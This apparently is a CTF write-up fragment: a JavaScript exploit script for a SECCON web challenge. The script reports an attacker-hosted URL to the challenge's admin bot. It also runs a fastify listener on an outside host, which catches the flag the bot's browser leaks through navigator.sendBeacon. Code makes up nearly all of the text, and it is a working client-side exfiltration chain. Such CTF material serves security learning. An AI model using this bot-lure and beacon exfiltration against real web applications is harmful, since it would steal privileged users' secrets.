 ```javascript title="index.js"
  if (
    noteId.includes("..") ||
    noteId.includes("/") ||
    noteId.includes("\\") ||
    noteId.includes("%")
  ) {
    fail(`Invalid id: ${noteId}`);
  }

  const baseUrl = "http://web:3000";

  const reportedUrl = `${ATTACK_BASE_URL}/index.html?${new URLSearchParams({
    baseUrl,
    noteId,
  })}`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        url: reportedUrl,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const fastify = require("fastify")();

fastify.register(require("@fastify/static"), {
  root: path.join(__dirname, "public"),
});

fastify.post("/", async (req, reply) => {
  // Received data from navigator.sendBeacon
  console.log(req.body); // Got a flag!
  process.exit(0);
});

const start = async () => {
  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1 * 1000);
      await exploit();
      await sleep(10 * 1000);
      fail("Failed");
    }
  );
};
start();
```
